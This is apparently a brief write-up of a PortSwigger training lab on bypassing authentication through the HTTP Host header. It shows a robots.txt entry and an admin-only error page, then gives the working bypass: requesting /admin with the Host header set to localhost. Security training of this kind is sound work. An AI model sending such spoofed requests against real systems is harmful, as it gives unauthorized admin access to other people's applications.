 # [Lab: Host header authentication bypass](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-authentication-bypass)

## Lab

This lab makes an assumption about the privilege level of the user based on the HTTP Host header.

To solve the lab, access the admin panel and delete Carlos's account.

## Analysis

robots.txt:

```text
User-agent: *
Disallow: /admin
```

GET /admin:

```text
Admin interface only available to local users
```

## Solutions

change `Host` header to localhost:

```http
GET /admin HTTP/1.1
Host: localhost
```

=> bypassed
